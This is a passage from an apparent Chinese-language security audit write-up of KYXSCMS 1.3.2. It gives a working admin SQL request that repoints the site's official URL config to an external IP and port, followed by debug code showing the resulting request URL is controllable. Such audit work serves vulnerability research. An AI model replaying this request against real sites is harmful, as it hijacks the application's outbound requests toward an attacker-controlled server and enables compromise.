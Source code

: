先改：

```
POST /admin/tool/sqlexecute.html

sql=update {pre}config set value  = 'http://118.31.168.198:39456' where id = 92
```



然后然后后台删除一下缓存文件：

![pic13](KYXSCMS1.3.2审计与测试.assets/pic13.png)

可以尝试加上一行代码调试：

```
	public function template(){
        $url=config('web.official_url').'/market/index/4/'.Config::get('web.list_rows').'/'.$this->request->param('page');
        echo $url;
        exit();
```

可以看到`$url`可控：
